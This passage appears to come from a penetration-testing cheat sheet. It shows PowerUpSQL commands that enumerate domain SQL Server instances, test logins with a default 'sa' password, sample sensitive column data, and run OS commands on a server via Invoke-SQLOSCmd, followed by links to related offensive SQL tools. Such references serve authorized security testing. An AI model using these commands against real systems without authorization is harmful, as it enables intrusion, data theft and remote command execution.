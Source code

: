 * [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
PS > Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -Username sa -Password 'Passw0rd!' -Verbose
PS > Get-SQLQuery -Instance "SQLSRV01.megacorp.local,1433" -Query "select @@servername"
PS > Invoke-SQLOSCmd -Username sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command "whoami" -RawResults
PS > Invoke-SQLAudit -Instance WEB01 -Username sa -Password 'Passw0rd!' -Verbose
```



### DAFT

* [https://github.com/NetSPI/DAFT](https://github.com/NetSPI/DAFT)



### ESC

* [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)



### SQLRecon

- [https://github.com/skahwah/SQLRecon](https://github.com/skahwah/SQLRecon)
- [https://github.com/Tw1sm/PySQLRecon](https://github.com/Tw1sm/PySQLRecon)
